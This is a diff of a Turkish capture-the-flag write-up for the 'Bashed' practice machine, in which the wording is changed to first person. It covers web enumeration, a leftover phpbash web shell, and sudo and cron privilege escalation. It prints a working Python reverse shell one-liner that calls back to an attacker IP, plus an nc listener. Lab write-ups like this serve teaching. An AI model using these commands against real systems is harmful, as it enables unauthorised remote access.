

Before and after one commit to burakcanbalta/burakcanbalta.github.io, a Markdown page: content/articles/Bashed.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/content/articles/Bashed.md
+++ b/content/articles/Bashed.md
@@ -12,13 +12,13 @@ nmap -sS -A -T5 -p- 10.129.51.18
 
 <img width="539" height="382" alt="nmap" src="https://github.com/user-attachments/assets/40befac0-da60-43d5-936e-ec02aacdfc55" />
 
-Tek açık port 80, arkasında Apache 2.4.18 üzerinde çalışan bir web uygulaması. Sayfa başlığı `Arrexel's Development Site` — saldırı yüzeyi tamamen web katmanına indirgeniyor.
+Tek açık port 80, arkasında Apache 2.4.18 üzerinde çalışan bir web uygulaması buluyoruz. Sayfa başlığı `Arrexel's Development Site` — saldırı yüzeyimiz tamamen web katmanına iniyor.
 
 ### 2. Web Enumeration
 
 <img width="1010" height="555" alt="site1" src="https://github.com/user-attachments/assets/e3fa8a00-7c42-422c-9e70-bd489d7aa505" />
 
-Sayfa içeriği statik ve boş, dizin taramasına geçiliyor:
+Sayfa içeriği statik ve boş, direkt dizin taramasına geçiyoruz:
 
 ```bash
 ffuf -u http://10.129.51.18/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
@@ -26,15 +26,15 @@ ffuf -u http://10.129.51.18/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-
 
 <img width="753" height="263" alt="ffuf" src="https://github.com/user-attachments/assets/fbd2d3d6-e38f-4829-a488-85c56165816a" />
 
-`dev` dizini kontrol ediliyor:
+`dev` dizinini kontrol ediyoruz:
 
 <img width="582" height="318" alt="dev" src="https://github.com/user-attachments/assets/d0c2de47-420f-4d38-97e8-8ba569f0c918" />
 
-**phpbash**, açık kaynaklı semi-interactive bir PHP web shell — production'da unutulmuş bir geliştirme aracı.
+Karşımıza **phpbash** çıkıyor — açık kaynaklı, semi-interactive bir PHP web shell. Görünüşe göre bir geliştirici test ederken bırakmış ve kaldırmayı unutmuş.
 
 ### 3. Foothold
 
-`phpbash.php`, tarayıcı üzerinden doğrudan komut çalıştırma imkânı veriyor — paketlenmiş bir RCE.
+`phpbash.php`'i açtığımızda tarayıcı üzerinden doğrudan komut çalıştırabiliyoruz — paketlenmiş bir RCE elimizde. İlk iş olarak user flag'i alıyoruz:
 
 ```
 www-data@bashed:/home/arrexel# cat user.txt
@@ -43,7 +43,7 @@ efd6cb94fd86d921ba0cb64f733e6a46
 
 <img width="665" height="152" alt="userflag" src="https://github.com/user-attachments/assets/d590441a-5397-4b97-84c9-f31589e7e9be" />
 
-phpbash state tutmadığı ve her istekte sayfayı yenilediği için, çalışmayı terminale taşımak adına klasik bir Python reverse shell tetikleniyor:
+phpbash state tutmuyor, her istekte sayfayı yeniden yüklüyor — web üzerinden ilerlemek pratik değil. Bu yüzden çalışmayı terminale taşıyoruz, klasik bir Python reverse shell atıyoruz:
 
 ```bash
 rlwrap nc -nvlp 4444
@@ -53,13 +53,15 @@ rlwrap nc -nvlp 4444
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.187",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 ```
 
-Bind shell yerine reverse shell tercih edilmesinin sebebi, hedefin muhtemelen firewall/NAT arkasında olması — outbound bağlantılar inbound'a göre çok daha az kısıtlanır.
+Bind shell yerine reverse shell'i tercih ediyoruz çünkü hedef muhtemelen firewall/NAT arkasında — outbound bağlantılar inbound'a göre çok daha az kısıtlanıyor.
 
 ```
 connect to [10.10.14.187] from (UNKNOWN) [10.129.51.18] 46020
 /bin/sh: 0: can't access tty; job control turned off
 $
 ```
+
+Terminale geçtik.
 
 ---
 
@@ -76,7 +78,7 @@ User www-data may run the following commands on bashed:
     (scriptmanager : scriptmanager) NOPASSWD: ALL
 ```
 
-`www-data`, şifre girmeden `scriptmanager` kimliğiyle **herhangi bir komutu** çalıştırabiliyor — kural muhtemelen tek bir script'e izin vermek amacıyla yazılmış, `ALL` ile kapsam tamamen genişletilmiş. Klasik bir sudo misconfiguration.
+`www-data`, şifre girmeden `scriptmanager` kimliğiyle **herhangi bir komutu** çalıştırabiliyoruz — kural muhtemelen tek bir script'e izin vermek için yazılmış, `ALL` ile kapsam tamamen genişletilmiş. Klasik bir sudo misconfiguration ile karşı karşıyayız.
 
 ```bash
 sudo -u scriptmanager /bin/bash
@@ -84,12 +86,12 @@ sudo -u scriptmanager /bin/bash
 
 ### 5. Privilege Escalation — scriptmanager → root
 
-`scriptmanager` context'inde dikkat çeken nokta, kullanıcıya özel bir dizin:
+`scriptmanager` context'inde etrafı incelerken dikkatimizi çeken bir dizin buluyoruz:
 
 ```
 $ ls -ld /scripts
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
 ```
 
-`www-data` iken bu dizine erişim `Permission denied` ile reddediliyordu; izinler sadece `scriptmanager` sahipliği/grubuna yazma-okuma hakkı tanıyor. `sudo -l` çıktısındaki `NOPASSWD: ALL` doğrudan crontab'a erişim vermiyor — root'un crontab'ını göremiyoruz. Ama isim seçimi (`scriptmanager` + `/scripts`) tek başına güçlü bir sinyal: bu paternde neredeyse her zaman root'a ait bir cron job, bu dizini periyodik tarayıp içindeki dosyaları kendi yetkisiyle çalıştırır. Crontab'a doğrudan erişim yoksa bu, genelde `pspy` ile (root yetkisi gerektirmeden çalışan process'leri gözlemleyen bir araç) doğrulanır; Bashed'de senaryo tam olarak bu — `/scripts` altındaki `.py` dosyaları root cron job'u tarafından düzenli aralıklarla execute ediliyor.
+`www-data` iken bu dizine erişimimiz `Permission denied` ile reddediliyordu; izinler sadece `scriptmanager` sahipliği/grubuna yazma-okuma hakkı tanıyor. `sudo -l` çıktısındaki `NOPASSWD: ALL` bize doğrudan crontab erişimi vermiyor — root'un crontab'ını göremiyoruz. Ama isim seçimi (`scriptmanager` + `/scripts`) tek başına güçlü bir sinyal veriyor: bu paternde neredeyse her zaman root'a ait bir cron job, bu dizini periyodik tarayıp içindeki dosyaları kendi yetkisiyle çalıştırır. Crontab'a doğrudan erişimimiz yoksa bunu genelde `pspy` ile (root yetkisi gerektirmeden çalışan process'leri gözlemleyen bir araç) doğrularız; Bashed'de senaryo tam olarak bu — `/scripts` altındaki `.py` dosyaları root cron job'u tarafından düzenli aralıklarla execute ediliyor.
 
````
Also changed, not shown: other parts of content/articles/Bashed.md (+11 -9 lines).
